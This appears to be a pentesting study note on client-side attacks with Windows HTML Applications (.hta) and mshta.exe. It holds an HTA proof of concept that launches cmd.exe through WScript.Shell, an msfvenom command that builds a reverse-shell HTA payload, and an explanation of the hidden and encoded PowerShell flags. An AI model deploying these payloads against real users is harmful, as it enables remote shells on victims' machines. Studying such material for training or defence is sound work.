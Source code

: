 
# Client-Side-Attacks-HTML-Applications

## Leveraging HTML Applications
[HTML Applications](https://docs.microsoft.com/en-us/previous-versions//ms536496(v=vs.85)?redirectedfrom=MSDN), with file extension .hta can be excuted on a Windows Client with the `mshta.exe`. This is to allow Internet Explore to arbitrarily execute applications within itself rather than downloading and manual executing a remote executable. An attacker can run that within the context of the user to avoid security restrictions. [ActiveX](https://en.wikipedia.org/wiki/ActiveX) is deprecated software that found on legacy systems was controversial and [historically insecure](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=ActiveX) comparatively to other technologies, thus low hanging RCEs. Whereas [Edge](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=Edge) still vulnerable just less insecure also actively researched due to modern widespread default Windows Browser. HTML application are HTML with [[Javascript]] or [[Useful_Visual_Basic_for_Applications]], HTML application are excuted outseide the browser and can be used to execute legacy and dangerous features blocked by the Browser.

## ActiveX

ActiveXObjects can provide access to underlying OS commands, using Windows Script Host functionality or WScript to access the Windows Script Host Shell object. This can  be

```html

<html>
<head>

<script>

  var c= 'cmd.exe'
  new ActiveXObject('WScript.Shell').Run(c);
  
</script>

</head>
<body>

<script>
  
  self.close(); // Close addition window behind command prompt
    
</script>

	
</body>
</html>
```

Users that broswer to this page to access the file, IE pops: `Open, Save, Save As`, selecting `Open` will prompt a `Allow || Don't Allow` options to default enabled sandbox called `Protected Mode` *"A website wants to open web content using this program on your Computer"* stating that Name: Microsoft (R) HTML Application host, Publisher: Microsoft Windows. `Allow` will permit execution. Using MSFvenom we can turn the script above into an actual attack with reverse_shell.hta. 
```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=$IP LPORT=$PORT -f hta-psh -o /var/www/html/reverse_shell.hta
```

This payload adds powershell commands to  `-NoProfile`, `WindowStyle hidden` and `-EncodedCommand`. The reason behind the `EncodedCommand` existing in Powershell is to not have to deal with escape characters, maybe you want automate a script in the background with `WindowStyle hidden`like run patching or AD policy updates and `-NoProfile` becuase maybe you just want to do some cli maths and don't want or need to authenicate yourself to do maths. All of these properties of powershell can be used, like many other for nefarious reasons.


## MSHTML.dll 

MSHTML.dll one of many [[Dynamic-Link-Libraries]], which is specifically responsible as the Browser Engine, used regardless of IE being on the machine. From [LesFerch's Amazing Answer on Windows Forums](https://answers.microsoft.com/en-us/microsoftedge/forum/all/will-mshtaexe-default-to-edge-when-opening-an-hta/e6b278e3-e7d4-48a4-aff9-20e317e25a89):

*"Contrary to popular belief, Internet Explorer is still installed in Windows 11 and will remain in Windows 10. The only change is that in Windows 11 (and Windows 10 sometime after June 15, 2022) IE cannot be easily launched by the end-user. That is, attempting to directly run **iexplore.exe** will run **Edge** instead."*

IE can still be run via scripts using_ **_IE COM automation_**_. For example (LaunchIE.vbs):_
```vbscript
Set oIE = CreateObject("InternetExplorer.Application")

oIE.Visible = True

oIE.Navigate "about:blank" 'put your URL of choice here"
```

*"Code that uses **IE COM automation** will open IE and work as usual. Note that, for Windows 11, it must be build **22000.348** or higher (IE COM automation was broken in Windows 11 prior to the Nov 2021 update). Using Windows 11 (or Windows 10 after IE is "disabled"), any link in an **HTA**, using code such as **href** or **window.open,** will open in **Internet Explorer**. Using a computer, where Internet Explorer has been _completely removed_ via **Control Panel** **Add/Remove Features**, any link in an **HTA**, using code such as **href** or **window.open,** will not work. The **href** will do nothing and the **window.open** will generate an error. Therefore, you should NOT remove IE from Windows 10 or Windows 11. Web pages that are opened via an **iframe** in an **HTA** will continue to work in all cases. Unfortunately, many external web sites don't allow their content to be loaded in an iframe."*

## References

[ActiveX Wiki](https://en.wikipedia.org/wiki/ActiveX) 
[LesFerch's Amazing Answer on Windows Forums](https://answers.microsoft.com/en-us/microsoftedge/forum/all/will-mshtaexe-default-to-edge-when-opening-an-hta/e6b278e3-e7d4-48a4-aff9-20e317e25a89)
[CVE ActiveX](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=ActiveX)
[CVE Edge](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=Edge) 
